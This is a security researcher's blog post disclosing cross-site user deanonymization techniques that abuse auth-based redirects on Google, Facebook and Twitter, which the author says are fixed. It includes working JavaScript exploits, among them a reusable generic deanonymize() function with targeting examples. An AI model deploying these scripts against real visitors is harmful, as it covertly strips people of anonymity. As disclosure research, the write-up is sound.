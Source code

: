 ```yaml
---
layout: post
title: Novel Techniques for User Deanonymization Attacks
---
```

TL;DR: By abusing auth-based redirections and user-specific URIs on modern web applications, an attacker can easily identify and deanonymize any given predefined group of users across the web.

Frankly, this is not really the first time I write about this kind of issues; I first drew attention to this in a thread I initially posted on the [webappsec mailing list](http://www.webappsec.org/lists/websecurity) almost a year ago<a href="#1">[1]</a>, but for some reason, that didn't receive enough attention. Hopefully, the implications I'm going to demonstrate in this writeup would be sufficient for people to start taking the appropriate precautions against this kind of privacy threats out there!

Well, it all started with me logging into my Gmail account as usual, just to notice a redirection being made to a URI specified in a `GET` parameter named "___continue___" with my email address in a second `GET` parameter named "___email___". Here's our interesting endpoint:
{% highlight css linenos %}
https://accounts.google.com/AccountChooser?continue=<URI>&email=<email_address>
{% endhighlight %}
The fun starts when you tamper the value of that "___email___" param, as when you do that, you wouldn't get redirected to the URI specified in the "___continue___" param, but instead, you get redirected to a Gmail re-authentication page! While if you just tamper the value of the "___continue___" param, you still get redirected as long as it's a "[*.google.com](#)" endpoint and the "___email___" param does point to your own email address.

So far, so good. Now, the question is, how could an attacker maliciously exploit such behavior? "Deanonymization" is the word! Here's how:


First, we get the URI of any embeddable resource hosted on "[*.google.com](#)"; a small icon/image would typically do the job. Then we set that "___continue___" param to the URI of that resource, and we set the "___email___" param to the email address of a given target we want to deanonymize (say "`target@gmail.com`"). Like this:
{% highlight css linenos %}
https://accounts.google.com/AccountChooser?continue=https://www.google.com/images/errors/robot.png&email=target@gmail.com
{% endhighlight %}
Now, we have an endpoint that points to an image resource when the email address of the current Gmail user is "`target@gmail.com`", but points to a webpage otherwise! Cool, here's a sweet exploit:
{% highlight javascript linenos %}
(function (email) {
    var endpoint = 'https://accounts.google.com/AccountChooser?continue=https://www.google.com/images/errors/robot.png&email=';
    var img = new Image();
    img.src = endpoint + email;
    window.onload = function() {
        if (img.height === 213 && img.width === 171) {
            alert('Deanonymized successfully!');
        }
    };
    document.documentElement.appendChild(img);
}('target@gmail.com'));
{% endhighlight %}
Note that I had reported this issue to the Google security team and it has been fixed a long time ago. ...end of story? Not so fast!

They initially pushed a short-term fix by implementing a regex-based blacklist (on top of their permissive whilelist), where they don't generally allow redirections to any endpoint that ends with a file extension such as "`.jpg`", "`.js`", "`.ico`", et al! Which basically means, if you can find an open redirect on "[*.google.com](#)" or even some endpoint that points to an embeddable resource but doesn't end with a file extension, you still have a working exploit! Great, but what if you are just not lucky enough to find something like that? Oh, no worries, the fun never ends:

Well, we know that as long as it's a valid "[*.google.com](#)" endpoint, a redirection shall happen; all we need here is another distinctive behavior that depends on something else other than embeddable resources. What possibly could that be? Oh, HTTP status codes come to the rescue! Here it goes:

What happens if we simply use an endpoint that points to a non-existent resource? Obviously, we get redirected to an error page, and an error page typically returns a "`404 Not Found`" status code. Yet another sweet exploit:
{% highlight javascript linenos %}
(function (email) {
    var endpoint = 'https://accounts.google.com/AccountChooser?continue=https://www.google.com/404&email=';
    var script = document.createElement('script');
    script.src = endpoint + email;
    script.onerror = function() {
        alert('Deanonymized successfully!');
    };
    document.documentElement.appendChild(script);
}('target@gmail.com'));
{% endhighlight %}
Oops! ...works like a charm (as of now, they fixed this by disallowing redirections on `GET` requests altogether) but with one little problem, Google makes use of the "`X-Content-Type-Options: nosniff`" header which tells a browser not to do content type sniffing, disallowing embedding resources that don't return the right MIME type. Luckily, Firefox [doesn't seem to respect that header](https://bugzilla.mozilla.org/show_bug.cgi?id=471020) while working with script elements, but Chrome does respect it! Well, not exactly! It turns out that Chrome doesn't respect it while working with external stylesheets and proceeds to interpret the resource anyway:
<br /><a href="/images/ChConsole.png" target="_blank"><img class="innerImg" src="/images/ChConsole-thumb.png" alt="Chrome console"></a><br />
So, all we have to do is use a link element instead of a script element when running on Chrome. Fair enough, here's one single generic exploit that combines all of these tricks together to deanonymize whoever you want, on whichever browser he uses, against whatever webapp you please:
<div style="font-size: 75%">
{% highlight javascript linenos %}
/**
 * Deanonymize a predefined group of users, given sufficient arguments.
 * @param attackMethod {string}, the method of the attack (either 'redirection' or 'statusCode').
 * @param endpoint {string}, the vulnerable endpoint with the user ID parameter last.
 * @param idList {array}, a list of the targeted users' IDs.
 * @param callback {function}, a callback function to pass all results to.
 * @return {array}, an ordered output array with boolean values.
 */
function deanonymize(attackMethod, endpoint, idList, callback) {
    var elNodes, testFn;
    var output = [];
    // register a new cross-browser event listener
    var addListener = (function() {
        return (window.addEventListener) ? window.addEventListener :
            // for IE8 and earlier versions support
            function (evName, callback) {
                window.attachEvent.call(this, 'on'+evName, callback);
            };
    }());
    var createElements = function(tagName) {
        var i, l, el;
        var elNodes = [];
        for (i = 0, l = idList.length; i < l; i++) {
            el = document.createElement(tagName);
            if (tagName !== 'link') {
                el.src = endpoint + idList[i];
            } else {
                el.href = endpoint + idList[i];
                el.rel = 'stylesheet';
            }
            if (tagName !== 'img') {
                el.onerror = function() {
                    this.parentElement.removeChild(this);
                };
            }
            elNodes.push(el);
            document.documentElement.appendChild(el);
        }
        return elNodes;
    };
    var assess = function(testFn) {
        var i, l;
        for (i = 0, l = elNodes.length; i < l; i++) {
            if (testFn(elNodes[i])) {
                output.push(true);
            } else {
                output.push(false);
            }
        }
        callback(output);
    };
    if (attackMethod === 'redirection') {
        elNodes = createElements('img');
        testFn = function(imgNode) {
            if (imgNode.naturalHeight !== 0 && imgNode.naturalWidth !== 0) {
                return true;
            }
            return false;
        };
    } else if(attackMethod === 'statusCode') {
        elNodes = (/chrome/i.test(navigator.userAgent)) ? createElements('link') :
                           createElements('script');
        testFn = function(el) {
            if (el.parentNode !== document.documentElement) {
                return true;
            }
            return false;
        };
    }
    addListener.call(window, 'load', function() {assess(testFn);});
}
{% endhighlight %}
</div>

The story doesn't end here either, these issues are too widespread than you can imagine! I'm talking about Facebook, Twitter and the list goes on! Here's a couple of variations, just to mention a few:

As for Facebook, you could have simply deanonymized a bunch of users based on their profile IDs (using the generic exploit above) by doing something like:
{% highlight javascript linenos %}
deanonymize('statusCode', 'https://www.facebook.com/feed/export/service_redirect.php?service=1&id=', [10001, 10003], alert);
{% endhighlight %}
Now, if any of the users whose profile ID is one of these (10001, 10003) visits our website, he'll get immediately deanonymized! (of course that's fixed now.)

And as for Twitter, you could do it using the ID of any tweet(s) that belongs to your target(s). Like this:
{% highlight javascript linenos %}
deanonymize('statusCode', 'https://twitter.com/intent/retweet?tweet_id=', [10001, 10003], alert);
{% endhighlight %}
But why a tweet ID in particular? That's because I couldn't find any vulnerable user-specific endpoints there! So, alternatively, we exploit the fact that a twitter user cannot retweet his own tweets! (also fixed)

# Conclusion:
The modern web continues to prove itself as a very compromised zone; from timing attacks to nasty techniques like that, your identity and your data are, one way or another, prone to be exposed anytime as you navigate on. Do NOT browse while being authenticated to other web applications (or use <a href="https://www.requestpolicy.com" target="_blank">RequestPolicy</a> if possible). Do NOT allow scripts on untrusted websites (<a href="https://noscript.net">NoScript</a> is always a good idea; [AnonTab](/projects/#AnonTab) too!).

# References:
<a name="1" style="color: black">[1]: </a><a href="https://lists.w3.org/Archives/Public/public-webappsec/2015May/0043.html" target="_blank">https://lists.w3.org/Archives/Public/public-webappsec/2015May/0043.html</a><br />
[2]: <a href="https://hackerone.com/reports/44814" taget="_blank">https://hackerone.com/reports/44814</a>
